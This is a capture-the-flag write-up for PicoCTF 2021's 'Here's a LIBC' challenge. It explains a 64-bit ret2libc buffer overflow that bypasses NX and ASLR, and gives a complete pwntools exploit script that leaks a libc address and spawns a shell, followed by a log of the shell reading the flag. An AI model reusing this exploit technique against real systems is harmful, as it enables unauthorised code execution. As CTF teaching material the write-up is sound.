 ```yaml
---
title: Ret2libc 64 bits (NX & ASLR)
description: Exploiting a buffer overflow using ret2libc with ASRL and NX enabled.
---
```


# Ret2libc 64 bits (NX & ASLR)

## Summary

Exploiting a buffer overflow using `ret2libc` with `ASRL` and `NX` enabled.

## Challenge

### Description

!!! note ""
    Challenge : [Here's a LIBC](https://play.picoctf.org/practice/challenge/179) from PicoCTF 2021.

I am once again asking for you to pwn this binary.

- [vuln](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/vuln) [libc.so.6](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/libc.so.6) [Makefile](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/Makefile)
- `nc mercury.picoctf.net 24159`

## Writeup

We do not have access to the source code, however we have the binary and the `libc`.

Let's have a look at the binary :

```
$ pwn checksec vuln
[*] '.../picoctf/Heres_a_LIBC/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

`NX` is enabled, so we can't run our shellcode on the stack. Also, `ASLR` is enabled on the remote TCP service.

To bypass `NX`, we will use a ROPChain. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets.

Source code :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import remote, p64, u64, ELF


"""
0x0000000000400913: pop rdi; ret;
0x000000000040052e: ret;
"""

PADDING = 136
HOST, PORT = "mercury.picoctf.net", 24159

vuln = ELF("./vuln")
libc = ELF("./libc.so.6")

# Gadgets
pop_rdi  = p64(0x0000000000400913)
ret      = p64(0x000000000040052e)
puts_plt = p64(vuln.plt['puts'])
main_plt = p64(vuln.symbols['main'])
puts_got = p64(vuln.got['puts'])

# Leak puts address inside libc
payload = b"A" * PADDING
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_plt

# Send the first ROP
proc = remote(HOST, PORT)
proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!", payload)

# Parse puts address from stdout 
proc.recvline()
proc.recvline()
puts_addr = proc.recvline().strip().ljust(8, b'\x00')
print(f"puts_addr: {puts_addr}")

# Calculate libc base address (offset diff)
libc.address = u64(puts_addr) - libc.symbols['puts']
bin_sh   = p64(next(libc.search(b'/bin/sh')))
system   = p64(libc.symbols['system'])

# Send the second ROP with the right offsets, system('/bin/sh')
payload = b"A" * PADDING
payload += ret # stack alignment
payload += pop_rdi
payload += bin_sh
payload += system

proc.sendline(payload)
proc.interactive()
```

Execution :

```
$ python3 ret2libc.py
...
puts_addr: b'0Zy\x07\x18\x7f\x00\x00'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ id
uid=1560(here-s-a-libc_5) gid=1561(here-s-a-libc_5) groups=1561(here-s-a-libc_5)
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_cf205091ad15ab6d}[*] Got EOF while reading in interactive
$
[*] Closed connection to mercury.picoctf.net port 24159
```